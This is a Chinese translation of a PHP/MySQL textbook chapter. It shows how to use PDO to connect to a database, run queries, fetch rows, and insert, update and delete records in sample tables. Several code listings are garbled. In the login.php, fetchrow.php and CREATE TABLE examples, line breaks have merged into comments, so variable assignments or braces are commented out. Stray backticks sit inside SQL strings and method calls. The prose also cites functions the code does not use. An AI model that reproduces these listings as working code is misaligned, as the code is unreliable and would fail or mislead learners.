



# 第十一章：使用 PHP 访问 MySQL

如果你已经完成了前面的章节，那么你应该已经熟练掌握了使用 MySQL 和 PHP。在本章中，你将学习如何通过使用 PHP 的内置函数来集成这两者，以访问 MySQL。

# 使用 PHP 查询 MySQL 数据库。

使用 PHP 作为 MySQL 接口的原因是将 SQL 查询的结果格式化为在网页上可见的形式。只要你能使用用户名和密码登录到你的 MySQL 安装中，你也可以从 PHP 中进行这样的操作。

然而，与其使用 MySQL 的命令行来输入指令和查看输出，你可以创建传递给 MySQL 的查询字符串。当 MySQL 返回其响应时，它将以 PHP 可以识别的数据结构形式返回，而不是你在命令行工作时看到的格式化输出。进一步的 PHP 命令可以检索数据并为网页格式化它。

## 过程

使用 PHP 与 MySQL 的过程如下：

1.  连接到 MySQL 并选择要使用的数据库。

1.  准备一个查询字符串。

1.  执行查询。

1.  检索结果并将其输出到网页。

1.  重复步骤 2 至 4，直到检索到所有所需数据。

1.  与 MySQL 断开连接。

我们将依次完成这些步骤，但首先重要的是以安全的方式设置好你的登录细节，这样在你的系统上窥探的人们就很难访问你的数据库。

## 创建一个登录文件

大多数使用 PHP 开发的网站包含多个程序文件，这些文件将需要访问 MySQL，并因此需要登录和密码细节。因此，创建一个单独的文件来存储这些信息，并在需要的地方包含该文件是明智的。示例 11-1 展示了这样一个文件，我称之为*login.php*。

##### 示例 11-1\. login.php 文件

```php
<?php // login.php   $host = '`localhost`';    // `Change as necessary`
  $data = '`publications`'; // `Change as necessary`
  $user = '`root`';         // `Change as necessary`
  $pass = '`mysql`';        // `Change as necessary`
  $chrs = 'utf8mb4';
  $attr = "mysql:host=$host;dbname=$data;charset=$chrs";
  $opts =
  [
    PDO::ATTR_ERRMODE            => PDO::ERRMODE_EXCEPTION,
    PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,
    PDO::ATTR_EMULATE_PREPARES   => false,
  ];
?>
```

键入示例，将用户名*`root`*和密码*`mysql`*替换为你在 MySQL 数据库中使用的值（如果需要，还要替换主机和数据库名称），并将其保存到你在第二章中设置的文档根目录中。我们很快将使用这个文件。

主机名`localhost`应该能正常工作，只要你在本地系统上使用 MySQL 数据库，并且数据库`publications`应该能正常工作，如果你一直使用的是我使用过的示例。

封闭的`<?php`和`?>`标签对于示例 11-1 中的*login.php*文件尤为重要，因为它们意味着只有在 PHP 代码中间的行才能被解释。如果你省略它们，并且有人从你的网站直接调用这个文件，它将显示为文本并暴露你的秘密。但是，如果标签放置正确，所有人将只会看到一个空白页面。文件将正确包含你的其他 PHP 文件。

###### 注意

在本书的早期版本中，我们使用了直接访问 MySQL，这完全不安全，后来改用了 *mysqli*，这要安全得多。但是，俗话说时间在前进，现在有了从 PHP 访问 MySQL 数据库的最安全和最简便的方法，称为 PDO，在本书的这一版本中我们默认使用它作为 PHP 中访问数据库的轻量级和一致的接口。PDO 代表 PHP 数据对象，是一个使用统一 API 的数据访问层。实现 PDO 接口的每个数据库驱动程序都可以将特定于数据库的特性公开为常规扩展函数。

`$host` 变量将告诉 PHP 连接到数据库时要使用哪台计算机。这是必需的，因为您可以访问与您的 PHP 安装连接的任何计算机上的 MySQL 数据库，这可能包括任何连接到网络的主机。然而，本章中的示例将在本地服务器上运行。因此，不需要指定域名，如 `mysql.myserver.com`，您可以直接使用单词 `localhost`（或 IP 地址 `127.0.0.1`）。

我们将使用的数据库 `$data` 是我们在 第八章 中创建的名为 *publications* 的数据库（如果您使用的是服务器管理员提供的其他数据库，则必须相应修改 *login.php*）。

`$chrs` 表示字符集，在本例中我们使用 `utf8mb4`，而 `$attr` 和 `$opts` 包含访问数据库所需的附加选项。

###### 注意

将这些登录详细信息保存在一个地方的另一个好处是，您可以随意更改密码，并且每当您更改时只需更新一个文件，无论有多少个 PHP 文件访问 MySQL。

## 连接到 MySQL 数据库

现在您已经保存了 *login.php* 文件，可以通过使用 `require_once` 语句将其包含到需要访问数据库的任何 PHP 文件中。这比使用 `include` 语句更可取，因为如果找不到包含登录数据库详细信息的文件，它将生成致命错误，相信我，找不到这个文件是致命错误。

此外，使用 `require_once` 而不是 `require` 意味着只有在之前未包含时才会读取文件，这可以防止多余的重复磁盘访问。示例 11-2 显示了使用的代码。

##### 示例 11-2\. 使用 PDO 连接到 MySQL 服务器

```php
<?php
  require_once 'login.php';

  try
  {
    $pdo = new PDO($attr, $user, $pass, $opts);
  }
  catch (PDOException $e)
  {
    throw new PDOException($e->getMessage(), (int)$e->getCode());
  }
?>

```

此示例通过调用 `PDO` 方法的新实例来创建一个名为 `$pdo` 的新对象，并传递从 *login.php* 文件检索到的所有值。我们通过使用 `try...catch` 命令对错误进行检查。

`PDO` 对象在以下示例中用于访问 MySQL 数据库。

###### 注意

永远不要试图输出从 MySQL 接收到的任何错误消息的内容。与其帮助用户，你可能会向黑客泄露敏感信息，如登录详细信息。相反，根据错误消息向你的代码报告的信息指导用户克服困难。

### 构建和执行查询

从 PHP 向 MySQL 发送查询就像在连接对象的`query`方法中包含相关 SQL 一样简单。示例 11-3 展示了如何做到这一点。

##### 示例 11-3\. 使用 PDO 查询数据库

```php
<?php
  $query  = "SELECT * FROM classics";
  $result = $pdo->query($query);
?>
```

正如你所见，从 PHP 向 MySQL 发送查询与在命令行直接输入的内容几乎一样，唯一的区别是在访问 MySQL 时不需要尾随分号。

在这里，变量`$query`被赋予一个包含要执行的查询的字符串，然后传递给`$pdo`对象的`query`方法，该方法返回一个结果，我们将其放入`$result`对象中。

所有由 MySQL 返回的数据现在以易于查询的格式存储在`$result`对象中。

### 获取结果

一旦你在`$result`中得到一个对象返回，你可以使用它逐个提取你想要的数据项，使用对象的`fetch`方法。示例 11-4 将之前的示例结合并扩展为一个程序，你可以自己运行以检索结果（如图 11-1 所示）。输入此脚本并使用文件名 *query.php* 保存它，或者从[示例仓库](https://github.com/RobinNixon/lpmj6)下载它。

##### 示例 11-4\. 逐行提取结果

```php
<?php // query.php
  require_once 'login.php';

  try
  {
    $pdo = new PDO($attr, $user, $pass, $opts);
  }
  catch (PDOException $e)
  {
    throw new PDOException($e->getMessage(), (int)$e->getCode());
  }

  $query  = "SELECT * FROM classics";
  $result = $pdo->query($query);

  while ($row = $result->fetch())
  {
    echo 'Author:   ' . htmlspecialchars($row['author'])   . "<br>";
    echo 'Title:    ' . htmlspecialchars($row['title'])    . "<br>";
    echo 'Category: ' . htmlspecialchars($row['category']) . "<br>";
    echo 'Year:     ' . htmlspecialchars($row['year'])     . "<br>";
    echo 'ISBN:     ' . htmlspecialchars($row['isbn'])     . "<br><br>";
  }
?>

```



###### 图 11-1\. 来自 query.php 的输出

在这里，每次循环时，我们调用`$pdo`对象的`fetch`方法来检索存储在每行中的值，并使用`echo`语句输出结果。如果你看到结果顺序不同，不要担心。这是因为我们没有使用`ORDER BY`命令指定应返回的顺序，所以顺序是未指定的。

当在浏览器中显示数据时，其源可能是（或可能是）用户输入时，总会存在嵌入其中的阴险 HTML 字符的风险，即使你认为它已经经过了先前的清理。这些字符可能会被用于跨站点脚本（XSS）攻击。防止这种可能性的简单方法是将所有此类输出嵌入到`htmlspecialchars`函数的调用中，该函数将所有这些字符替换为无害的 HTML 实体。这种技术已在前面的示例中实施，并将在许多后续示例中使用。

在 第九章 中，我讨论了第一、第二和第三范式。您可能已经注意到 *classics* 表不符合这些范式，因为作者和书籍详情都包含在同一个表中。这是因为我们在遇到规范化之前创建了这个表。但是，为了说明从 PHP 访问 MySQL 的目的，重新使用此表可以避免输入新的测试数据，因此我们暂时保留它。

### 在指定样式的情况下获取一行

`fetch` 方法可以以各种风格返回数据，包括以下方式：

`PDO::FETCH_ASSOC`

返回下一行作为一个由列名作为索引的数组

`PDO::FETCH_BOTH` （默认）

返回下一行作为一个既由列名又由列号索引的数组

`PDO::FETCH_LAZY`

返回下一行作为一个匿名对象，其中属性名作为属性

`PDO::FETCH_OBJ`

返回下一行作为一个匿名对象，其中列名作为属性

`PDO::FETCH_NUM`

返回一个由列号索引的数组

如需查看 PDO 提取样式的完整列表，请参考 [在线参考](https://tinyurl.com/pdofetch)。

因此，下面（稍作更改）的示例（在 示例 11-5 中显示）更清楚地显示了在这种情况下 `fetch` 方法的意图。您可能希望使用名称 *fetchrow.php* 保存此修订文件。

##### 示例 11-5\. 逐行获取结果

```php
<?php //fetchrow.php   require_once 'login.php';

  try
  {
    $pdo = new PDO($attr, $user, $pass, $opts);
  }
  catch (PDOException $e)
  {
    throw new PDOException($e->getMessage(), (int)$e->getCode());
  }

  $query  = "SELECT * FROM classics";
  $result = $pdo->query($query);

  while ($row = $result->fetch(`PDO``::``FETCH_BOTH`)) // Style of fetch   {
    echo 'Author:   ' . htmlspecialchars($row['author'])   . "<br>";
    echo 'Title:    ' . htmlspecialchars($row['title'])    . "<br>";
    echo 'Category: ' . htmlspecialchars($row['category']) . "<br>";
    echo 'Year:     ' . htmlspecialchars($row['year'])     . "<br>";
    echo 'ISBN:     ' . htmlspecialchars($row['isbn'])     . "<br><br>";
  }
?>

```

在这个修改后的代码中，仅对 `$result` 对象进行了五分之一的询问（与前一个示例相比），并且每次迭代循环中仅进行一次对象搜索，因为每行数据都通过 `fetch` 方法完整地返回为一个数组，然后分配给数组 `$row`。

此脚本使用关联数组。关联数组通常比数值数组更有用，因为您可以通过名称引用每列，如 `$row['author']`，而不是试图记住其在列顺序中的位置。

### 关闭连接

PHP 在脚本结束后会释放为对象分配的内存，因此在小型脚本中通常不需要担心释放内存。然而，如果您希望手动关闭 PDO 连接，只需将其设置为 `null` 即可：

```php
$pdo = null;
```

# 实际示例

现在是时候编写我们的第一个示例，使用 PHP 向 MySQL 表中插入数据并从中删除。建议您输入 示例 11-6 并将其保存到您的 Web 开发目录中，文件名为 *sqltest.php*。您可以在 图 11-2 中看到该程序输出的示例。

###### 注意

示例 11-6 创建了一个标准的 HTML 表单。 第十二章 详细解释了表单，但在本章中，我默认处理表单处理并只处理数据库交互。

##### 示例 11-6\. 使用 sqltest.php 进行插入和删除

```php
<?php // sqltest.php
  require_once 'login.php';

  try
  {
    $pdo = new PDO($attr, $user, $pass, $opts);
  }
  catch (PDOException $e)
  {
    throw new PDOException($e->getMessage(), (int)$e->getCode());
  }

  if (isset($_POST['delete']) && isset($_POST['isbn']))
  {
    $isbn   = get_post($pdo, 'isbn');
    $query  = "DELETE FROM classics WHERE isbn=$isbn";
    $result = $pdo->query($query);
  }

  if (isset($_POST['author'])   &&
      isset($_POST['title'])    &&
      isset($_POST['category']) &&
      isset($_POST['year'])     &&
      isset($_POST['isbn']))
  {
    $author   = get_post($pdo, 'author');
    $title    = get_post($pdo, 'title');
    $category = get_post($pdo, 'category');
    $year     = get_post($pdo, 'year');
    $isbn     = get_post($pdo, 'isbn');

    $query    = "INSERT INTO classics VALUES" .
      "($author, $title, $category, $year, $isbn)";
    $result = $pdo->query($query);
  }

  echo <<<_END
  <form action="sqltest.php" method="post"><pre>
    Author <input type="text" name="author">
     Title <input type="text" name="title">
  Category <input type="text" name="category">
      Year <input type="text" name="year">
      ISBN <input type="text" name="isbn">
           <input type="submit" value="ADD RECORD">
  </pre></form>
_END;

  $query  = "SELECT * FROM classics";
  $result = $pdo->query($query);

  while ($row = $result->fetch())
  {
    $r0 = htmlspecialchars($row['author']);
    $r1 = htmlspecialchars($row['title']);
    $r2 = htmlspecialchars($row['category']);
    $r3 = htmlspecialchars($row['year']);
    $r4 = htmlspecialchars($row['isbn']);

    echo <<<_END
  <pre>
    Author $r0
     Title $r1
  Category $r2
      Year $r3
      ISBN $r4
  </pre>
  <form action='sqltest.php' method='post'>
  <input type='hidden' name='delete' value='yes'>
  <input type='hidden' name='isbn' value='$r4'>
  <input type='submit' value='DELETE RECORD'></form>
_END;
  }

  function get_post($pdo, $var)
  {
    return $pdo->quote($_POST[$var]);
  }
?>

```



###### 图 11-2\. 来自示例 11-6，sqltest.php 的输出

这个程序大约有 80 行代码，可能看起来令人生畏，但不用担心——你已经在示例 11-4 中涵盖了许多行，并且代码的功能实际上非常简单。

首先检查可能已经输入的任何输入内容，然后根据提供的输入要么将新数据插入到*publications*数据库中的*classics*表中，要么从中删除一行。不管是否有输入，程序都会将表中的所有行输出到浏览器中。那么，让我们看看它是如何工作的。

新代码的第一部分开始使用`isset`函数检查是否已经向程序发送了所有字段的值。确认后，`if`语句中的每行调用`get_post`函数，该函数出现在程序末尾。此函数有一个小但至关重要的工作：从浏览器获取输入。

###### 注意

出于清晰和简洁的原因，并且为了尽可能简单地解释事物，许多后续示例省略了某些非常明智的安全预防措施，这些措施本应使示例变得更长，可能会削弱对其功能的最清晰解释。因此，重要的是不要跳过本章后面关于防止数据库被黑客攻击的部分（“防止黑客攻击”），在这部分中，您将了解有关通过代码采取的额外措施来保护数据库的信息。

## `$_POST` 数组

我在前面的章节中提到，浏览器通过 GET 请求或 POST 请求发送用户输入。通常首选 POST 请求（因为它可以防止在浏览器地址栏中放置不雅观的数据），因此我们在这里使用它。Web 服务器将所有用户输入（即使表单填写了一百个字段）捆绑到名为`$_POST`的数组中。

`$_POST` 是一个关联数组，在第六章中已经遇到过。根据表单设置为使用 POST 还是 GET 方法，`$_POST`或`$_GET`关联数组将被填充表单数据。它们可以以完全相同的方式读取。

每个字段在数组中都有一个以该字段命名的元素。因此，如果表单包含名为`isbn`的字段，则`$_POST`数组包含以单词`isbn`为键的元素。PHP 程序可以通过引用`$_POST['isbn']`或`$_POST["isbn"]`（在这种情况下，单引号和双引号具有相同的效果）来读取该字段。

如果 `$_POST` 语法对你来说仍然复杂，可以放心地使用我在 示例 11-6 中展示的惯例，将用户的输入复制到其他变量中，之后就可以忘记 `$_POST`。这在 PHP 程序中很正常：它们在程序开头从 `$_POST` 中检索所有字段，然后忽略它。

###### 注意

没有理由向 `$_POST` 数组中的元素写入。它的唯一目的是从浏览器传递信息给程序，最好在修改数据之前将数据复制到自己的变量中。

因此，回到 `get_post` 函数，该函数将检索到的每个项通过 PDO 对象的 `quote` 方法传递，以转义黑客可能插入以破坏或更改数据库的引号，并为你的每个字符串添加引号，例如这样：

```php
function get_post($pdo, $var)
{
  return $pdo->quote($_POST[$var]);
}
```

## 删除记录

在检查新数据是否已发布之前，程序会检查变量 `$_POST['delete']` 是否有值。如果有，用户已点击“DELETE RECORD”按钮来删除记录。在这种情况下，`$isbn` 的值也将已发布。

正如你可能记得的那样，ISBN 唯一标识每个记录。HTML 表单将 ISBN 追加到变量 `$query` 中创建的 `DELETE FROM` 查询字符串中，然后将其传递给 `$conn` 对象的 `query` 方法以发送到 MySQL。

如果 `$_POST['delete']` 没有设置（并且没有记录需要删除），会检查 `$_POST['author']` 和其他已发布值。如果它们都有值，`$query` 将设置为 `INSERT INTO` 命令，后跟要插入的五个值。然后将字符串传递给 `query` 方法。

如果任何查询失败，`try...catch` 命令将导致错误的发生。在生产网站上，你不希望显示这些面向程序员的错误消息，你需要将你的 `CATCH` 语句替换为一个能够整洁地处理错误并决定向用户提供何种错误消息（如果有的话）的语句。

## 显示表单

在显示小表单之前（如在 图 11-2 中所示），程序通过将它们传递给 `htmlspecialchars` 函数，将从 `$row` 数组输出的元素的副本转义到变量 `$r0` 到 `$r4` 中，以替换任何潜在危险的 HTML 字符为无害的 HTML 实体。

接下来是显示输出的代码部分，使用了像在前几章中看到的 `echo <<<_END..._END` 结构输出 `_END` 标记之间的所有内容。

###### 注意

程序可以不使用 `echo` 命令，而是使用 `?>` 退出 PHP，输出 HTML，然后使用 `<?php` 重新进入 PHP 处理。使用哪种风格是程序员的个人偏好问题，但我始终建议保持在 PHP 代码内部，出于以下原因：

+   它清楚地表明，当您调试时（以及其他用户时），*.php* 文件中的所有内容都是 PHP 代码。因此，没有必要去寻找回到 HTML 的点。

+   当您希望直接在 HTML 中包含 PHP 变量时，您可以直接输入它。如果您回到 HTML，您将不得不暂时重新进入 PHP 处理，访问变量，然后再退出。

HTML 表单部分简单地将表单的操作设置为*sqltest.php*。这意味着当提交表单时，表单字段的内容将发送到文件*sqltest.php*，即程序本身。表单还设置为将字段作为 POST 请求发送，而不是 GET 请求。这是因为 GET 请求会附加到正在提交的 URL 中，并且在浏览器中可能看起来混乱。它们还允许用户轻松修改提交并尝试黑客攻击您的服务器（尽管这也可以通过浏览器开发者工具实现）。此外，避免 GET 请求可以防止过多的信息出现在服务器日志文件中。因此，尽可能使用 POST 提交，这还有利于减少提交的数据量。

在输出表单字段之后，HTML 显示一个名为**添加记录**的提交按钮，并关闭表单。请注意这里的`<pre>`和`</pre>`标签，它们用于强制使用等宽字体，以便所有输入都整齐地对齐。当位于`<pre>`标签内时，每行末尾的换行符也会输出。

## 查询数据库

接下来，代码回到了熟悉的示例 11-4 领域，其中向 MySQL 发送一个查询，请求查看*classics*表中的所有记录，如下所示：

```php
$query  = "SELECT * FROM classics";
$result = $pdo->query($query);
```

接下来进入一个`while`循环以显示每行的内容。然后，程序通过调用`$result`的`fetch`方法，将结果行填充到数组`$row`中。

有了`$row`中的数据，现在很容易在随后的 heredoc `echo`语句中显示它，我选择使用`<pre>`标签来使每个记录的显示对齐。

在每个记录显示后，还有一个第二个表单，也会提交到*sqltest.php*（程序本身），但这次包含两个隐藏字段：`delete`和`isbn`。`delete`字段设置为`yes`，`isbn`设置为`$row[isbn]`中包含的值，其中包含记录的 ISBN。

然后显示名为**删除记录**的提交按钮，并关闭表单。然后一个花括号完成了`while`循环，该循环将继续，直到显示所有记录为止。

最后，您会看到函数`get_post`的定义，我们已经看过了。这就是我们的第一个 PHP 程序，用于操作 MySQL 数据库。因此，让我们看看它能做什么。

一旦你输入了程序（并纠正了任何输入错误），尝试在各种输入字段中输入以下数据，为书籍 *Moby Dick* 添加一个新记录到数据库中：

```php
Herman Melville
Moby Dick
Fiction
1851
9780199535729
```

## 运行程序

当你使用“添加记录”按钮提交这些数据后，向下滚动网页以查看新添加的内容。它应该类似于 图 11-3，尽管由于我们没有使用 `ORDER BY` 对结果进行排序，因此它出现的位置是不确定的。



###### 图 11-3\. 向数据库中添加白鲸的结果

现在让我们看看通过创建一个虚拟记录来了解删除记录的工作原理。尝试在每个五个字段中只输入数字`1`，然后点击“添加记录”按钮。如果现在向下滚动，你会看到一个新的记录，只包含数字 1。显然，在这个表中这条记录是没有用的，所以现在点击“删除记录”按钮，再次向下滚动确认记录已删除。

###### 注意

假设一切正常，现在你可以随意添加和删除记录。试着多做几次，但保留主要记录（包括 *Moby Dick* 的新记录），因为我们稍后会用到它们。你也可以尝试再次添加全 1 的记录几次，并注意第二次收到的错误消息，表明已经有一个 ISBN 号为 1 的记录。

# 实用的 MySQL

现在你可以开始学习一些实用的技术，以便在 PHP 中访问 MySQL 数据库，包括创建和删除表格；插入、更新和删除数据；以及保护数据库和网站免受恶意用户的侵害。请注意，以下示例假定你已经创建了本章前面讨论过的 *login.php* 程序。

## 创建表格

假设你正在一个野生动物园工作，需要创建一个数据库来存储它所养的各种类型猫的详细信息。据告知，这里有九个猫科动物——狮子、老虎、美洲豹、豹子、美洲狮、猎豹、山猫、瓜哇金钱豹和家猫，所以你需要一个用于这个的列。然后每只猫都被赋予了一个名字，所以又需要一个列，并且你还想要跟踪它们的年龄，这是另一个列。当然，你可能以后需要更多列，比如饮食需求、接种疫苗和其他细节，但现在已经足够开始了。每个动物还需要一个唯一标识符，所以你还决定创建一个叫做 *id* 的列。

示例 11-7 展示了你可能用来创建一个 MySQL 表来存储这些数据的代码，其中主要查询指定为粗体文本。

##### 示例 11-7\. 创建一个名为 cats 的表

```php
<?php
  require_once 'login.php';

  try
  {
    $pdo = new PDO($attr, $user, $pass, $opts);
  }
  catch (PDOException $e)
  {
    throw new PDOException($e->getMessage(), (int)$e->getCode());
  }

  $query = "`CREATE TABLE cats (     id SMALLINT NOT NULL AUTO_INCREMENT,     family VARCHAR(32) NOT NULL,     name VARCHAR(32) NOT NULL,     age TINYINT NOT NULL,     PRIMARY KEY (id)` )";

  $result = $pdo->query($query);
?>

```

正如你所看到的，MySQL 查询看起来就像直接在命令行中键入的内容，只是没有末尾的分号。

## 描述表格

当你未登录到 MySQL 命令行时，这里有一段方便的代码可以在浏览器内部验证表格是否已经正确创建。它简单地执行查询`DESCRIBE cats`，然后输出一个带有四个标题——*Column*、*Type*、*Null* 和 *Key*——以及表格中所有列的 HTML 表格。要在其他表格中使用它，只需将查询中的`cats`替换为新表格的名称（参见示例 11-8）。

##### 示例 11-8\. 描述 cats 表格

```php
<?php
  require_once 'login.php';

  try
  {
    $pdo = new PDO($attr, $user, $pass, $opts);
  }
  catch (PDOException $e)
  {
    throw new PDOException($e->getMessage(), (int)$e->getCode());
  }

  $query  = "`DESCRIBE cats`";
  $result = $pdo->query($query);

  echo "<table><tr><th>Column</th><th>Type</th><th>Null</th><th>Key</th></tr>";

  while ($row = $result->fetch(`PDO``::``FETCH_NUM`))
  {
    echo "<tr>";
    for ($k = 0 ; $k < 4 ; ++$k)
      echo "<td>" . htmlspecialchars($row[$k]) . "</td>";
    echo "</tr>";
  }

  echo "</table>";
?>

```

看看如何使用`FETCH_NUM`的 PDO 获取样式返回数值数组，以便轻松显示返回数据的内容，而不使用名称。程序的输出应如下所示：

```php
Column Type        Null Key
id     smallint(6) NO   PRI
family varchar(32) NO
name   varchar(32) NO
age    tinyint(4)  NO
```

## 删除表格

删除表格非常容易，因此非常危险，请务必小心。示例 11-9 显示了您需要的代码。但是，在您通过其他示例（直到“执行其他查询”）之前，我不建议您尝试它，因为它将删除表 *cats*，您将需要使用 示例 11-7 重新创建它。

##### 示例 11-9\. 删除 cats 表格

```php
<?php
  require_once 'login.php';

  try
  {
    $pdo = new PDO($attr, $user, $pass, $opts);
  }
  catch (PDOException $e)
  {
    throw new PDOException($e->getMessage(), (int)$e->getCode());
  }

  $query  = "`DROP TABLE cats`";
  $result = $pdo->query($query);
?>

```

## 添加数据

现在让我们使用 示例 11-10 中的代码向表格中添加一些数据。

##### 示例 11-10\. 向 cats 表格添加数据

```php
<?php
  require_once 'login.php';

  try
  {
    $pdo = new PDO($attr, $user, $pass, $opts);
  }
  catch (PDOException $e)
  {
    throw new PDOException($e->getMessage(), (int)$e->getCode());
  }

  $query  = "`INSERT INTO cats VALUES(NULL, 'Lion', 'Leo', 4)`";
  $result = $pdo->query($query);
?>

```

你可能希望通过修改 `$query` 来添加一些更多的数据项，然后再次在浏览器中调用程序：

```php
$query = "INSERT INTO cats VALUES(NULL, 'Cougar', 'Growler', 2)";
$query = "INSERT INTO cats VALUES(NULL, 'Cheetah', 'Charly', 3)";
```

顺便提一句，注意作为第一个参数传递的`NULL`值？这是因为 *id* 列的类型是 `AUTO_INCREMENT`，MySQL 将根据序列中的下一个可用编号决定分配什么值。因此，我们只需传递一个`NULL`值，这将被忽略。

当然，用数组创建并插入数据是将数据快速填充到 MySQL 中的最有效方法。

###### 注意

在本书的这一部分，我专注于向您展示如何直接将数据插入到 MySQL 中（并提供一些保持过程安全的安全预防措施）。然而，在本书的后续部分，我们将介绍一种更好的方法，您可以使用占位符（见“使用占位符”），这几乎使用户无法向数据库中注入恶意攻击。因此，在阅读本节时，请理解这是 MySQL 插入操作的基础知识，并记住我们将在以后进一步完善它。

## 检索数据

现在已经向 *cats* 表格中输入了一些数据，示例 11-11 显示了如何检查其是否已正确插入。

##### 示例 11-11\. 从 cats 表格检索行

```php
<?php
  require_once 'login.php';

  try
  {
    $pdo = new PDO($attr, $user, $pass, $opts);
  }
  catch (PDOException $e)
  {
    throw new PDOException($e->getMessage(), (int)$e->getCode());
  }

  $query  = "`SELECT * FROM cats`";
  $result = $pdo->query($query);

  echo "<table><tr> <th>Id</th> <th>Family</th><th>Name</th><th>Age</th></tr>";

  while ($row = $result->fetch(`PDO``::``FETCH_NUM`))
  {
    echo "<tr>";
    for ($k = 0 ; $k < 4 ; ++$k)
      echo "<td>" . htmlspecialchars($row[$k]) . "</td>";
    echo "</tr>";
  }

  echo "</table>";
?>

```

此代码只需执行 MySQL 查询`SELECT * FROM cats`，然后显示所有以数值方式访问的数组形式返回的行。其输出如下：

```php
Id Family  Name    Age
1  Lion    Leo     4
2  Cougar  Growler 2
3  Cheetah Charly  3
```

在这里，您可以看到*id*列已经正确地自动增加。

## 更新数据

修改您已经插入的数据也非常简单。您是否注意到猎豹 Charly 的名字的拼写错误？让我们将其更正为 Charlie，就像示例 11-12 中所示。

##### 示例 11-12\. 将猎豹 Charly 的名称更改为 Charlie

```php
<?php
  require_once 'login.php';

  try
  {
    $pdo = new PDO($attr, $user, $pass, $opts);
  }
  catch (PDOException $e)
  {
    throw new PDOException($e->getMessage(), (int)$e->getCode());
  }

  $query  = "`UPDATE cats SET name='Charlie' WHERE name='Charly'`";
  $result = $pdo->query($query);
?>

```

如果您再次运行示例 11-11，您将看到它现在输出以下内容：

```php
Id Family  Name    Age
1  Lion    Leo     4
2  Cougar  Growler 2
3  Cheetah Charlie 3
```

## 删除数据

Cougar Growler 已被转移到另一个动物园，所以现在是时候从数据库中删除它了；参见示例 11-13。

##### 示例 11-13\. 从 cats 表中删除 Cougar Growler

```php
<?php
  require_once 'login.php';

  try
  {
    $pdo = new PDO($attr, $user, $pass, $opts);
  }
  catch (PDOException $e)
  {
    throw new PDOException($e->getMessage(), (int)$e->getCode());
  }

  $query  = "`DELETE FROM cats WHERE name='Growler'`";
  $result = $pdo->query($query);
?>

```

这使用了标准的`DELETE FROM`查询，当您运行示例 11-11 时，您可以看到行已在以下输出中被移除：

```php
Id Family  Name    Age
1  Lion    Leo     4
3  Cheetah Charlie 3
```

## 使用 AUTO_INCREMENT

当使用`AUTO_INCREMENT`时，您无法知道在插入行之前列已经被赋予了什么值。相反，如果您需要知道它，您必须在之后使用`mysql_insert_id`函数询问 MySQL。这种需求很常见：例如，当您处理购买时，您可能会将新客户插入*Customers*表中，然后在将购买插入*Purchases*表时引用新创建的*CustId*。

###### 注意

建议使用`AUTO_INCREMENT`而不是选择*id*列中的最高 ID 并将其递增一，因为并发查询可能会在获取最高值后并在计算值存储之前更改该列中的值。

示例 11-10 可以重写为示例 11-14，以在每次插入后显示此值。

##### 示例 11-14\. 向 cats 表中添加数据并报告插入 ID

```php
<?php
  require_once 'login.php';

  try
  {
    $pdo = new PDO($attr, $user, $pass, $opts);
  }
  catch (PDOException $e)
  {
    throw new PDOException($e->getMessage(), (int)$e->getCode());
  }

  $query  = "`INSERT INTO cats VALUES(NULL, 'Lynx', 'Stumpy', 5`)";
  $result = $pdo->query($query);

  echo "The Insert ID was: " . `$pdo``->``lastInsertId``()`;
?>

```

表的内容现在应该像下面这样（请注意先前的*id*值为`2`没有被重用，因为这可能在某些情况下会引起问题）：

```php
Id Family  Name    Age
1  Lion    Leo     4
3  Cheetah Charlie 3
4  Lynx    Stumpy  5
```

### 使用插入 ID

在多个表中插入数据是非常常见的：一本书及其作者，一个客户及其购买记录等等。当在具有自动增量列的情况下进行此操作时，您需要保留返回的插入 ID 以存储在相关表中。

例如，假设这些猫可以作为筹集资金的手段被公众“领养”，当新猫被存储在*cats*表中时，我们还希望创建一个键将其与动物的领养主绑定。用于实现此目的的代码类似于示例 11-14，不同之处在于返回的插入 ID 存储在变量`$insertID`中，并作为后续查询的一部分使用：

```php
$query    = "INSERT INTO cats VALUES(NULL, 'Lynx', 'Stumpy', 5)";
$result   = $pdo->query($query);
`$insertID` = $pdo->lastInsertId();

$query    = "INSERT INTO owners VALUES(`$insertID`, 'Ann', 'Smith')";
$result   = $pdo->query($query);
```

现在，通过猫的唯一 ID 将猫连接到其“所有者”，该 ID 是通过`AUTO_INCREMENT`自动创建的。此示例，尤其是最后两行，是展示如何在我们创建了一个名为`owners`的表后，如何使用插入 ID 作为键的理论代码。

## 执行附加查询

